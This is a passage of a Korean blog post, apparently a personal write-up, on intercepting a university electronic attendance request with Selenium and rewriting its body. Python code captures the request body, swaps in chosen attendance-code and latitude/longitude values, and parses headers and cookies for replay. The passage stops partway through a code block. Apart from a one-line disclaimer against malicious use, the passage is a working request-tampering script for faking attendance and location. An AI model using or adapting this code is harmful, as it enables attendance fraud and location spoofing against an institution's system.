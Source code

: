 ### 바디값
```
key=0000&yy=*&hakgi=*&haksu=*&bunban=*&weekno=*&week=*&time=*&latitude=*&longitude=*
```
실제로는 이런식의 바디가 날라갔다(*로 실제값은 전부 가림)  
내 위치와 수업정보 그리고 출결번호를 받는 구조임을 파악하고 출결번호 값을 바꾸는 식의 코드를 작성하면 목표를 달성할 수 있을 거 같다.  
<br><br>

```python
b1 = None

for request in driver.requests:
    if '*.jsp' in request.url:
        b1 = request.body.decode('utf-8', errors='ignore')
        print("Request Body : ", b1)
        break
```
해당 요청은 *.jsp (*로 모자이크처리함)으로 전달되는 것을 확인했으므로 내가 보낸 request message 중에서 같은 이름을 가진 요청을 찾은 뒤 b1에 저장한다.
<br><br>

***악의적인 목적으로 사용을 절대 금지합니다.***
```python
def update_value(b1, key, value):
    if re.search(rf"(&{key}=)", b1):
        b1 = re.sub(rf"(&{key}=)[^&]*", rf"&{key}={value}", b1)
    else:
        b1 += f"&{key}={value}"
    return b1
  
latitude = "*"
longitude = "*"

b1 = update_value(b1, "latitude", latitude)
b1 = update_value(b1, "longitude", longitude)
```
여담이지만 이런식으로 코드를 수정하면 내 위치도 다르게 전송이 되지 않을까라는 생각도 해보았다.  
<br><br>

```python
def parse_headers_cookies(input_text):
    headers = {}
    cookies = {}

    lines = input_text.strip().split("\n")
    current_section = "headers"

    for line in lines:
        line = line.strip()
        
        if line.lower().startswith("cookie:"):
            current_section = "cookies"
            cookie_str = line.split(":", 1)[1].strip()
            cookie_pairs = cookie_str.split("; ")
            for pair in cookie_pairs:
                if "=" in pair:
                    key, value = pair.split("=", 1)
                    cookies[key] = value
        elif current_section == "headers" and ": " in line:
            key, value = line.split(": ", 1)
            headers[key] = value

    return headers, cookies

b1_len = len(b1)
input_text = f"""
POST /*.jsp HTTP/1.1
```